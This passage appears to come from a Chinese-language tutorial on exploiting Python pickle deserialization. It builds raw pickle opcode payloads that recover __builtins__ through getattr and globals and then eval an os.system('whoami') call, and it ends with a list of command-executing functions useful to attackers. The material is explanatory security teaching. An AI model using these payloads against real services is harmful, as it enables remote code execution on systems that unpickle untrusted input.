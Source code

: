 ```python
⑤ __builtins__.getattr(__builtins__.dict,"get")(__builtins__.globals(),"__builtins__")

(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'__builtins__'
tR.
```
成功构造了__builtins__
[![JF2nx0.png](https://s1.ax1x.com/2020/04/16/JF2nx0.png)](https://imgchr.com/i/JF2nx0)

置为p1
```python
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'__builtins__'
tRp1
```

使用
```python
__builtins__.getattr(p1,"eval")('__import__("os").system("whoami")')

cbuiltins
getattr
(g1
S'eval'
tR(S'__import__("os").system("whoami")'
R.
```


## 三 .反序列化漏洞利用

别人总结的命令函数
```python
eval, execfile, compile, open, file, map, input,
os.system, os.popen, os.popen2, os.popen3, os.popen4, os.open, os.pipe,
os.listdir, os.access,
os.execl, os.execle, os.execlp, os.execlpe, os.execv,
os.execve, os.execvp, os.execvpe, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe,
os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe,
pickle.load, pickle.loads,cPickle.load,cPickle.loads,
subprocess.call,subprocess.check_call,subprocess.check_output,subprocess.Popen,
commands.getstatusoutput,commands.getoutput,commands.getstatus,
glob.glob,
linecache.getline,
shutil.copyfileobj,shutil.copyfile,shutil.copy,shutil.copy2,shutil.move,shutil.make_archive,
dircache.listdir,dircache.opendir,
io.open,
popen2.popen2,popen2.popen3,popen2.popen4,
timeit.timeit,timeit.repeat,
sys.call_tracing,
code.interact,code.compile_command,codeop.compile_command,
pty.spawn,
posixfile.open,posixfile.fileopen,
```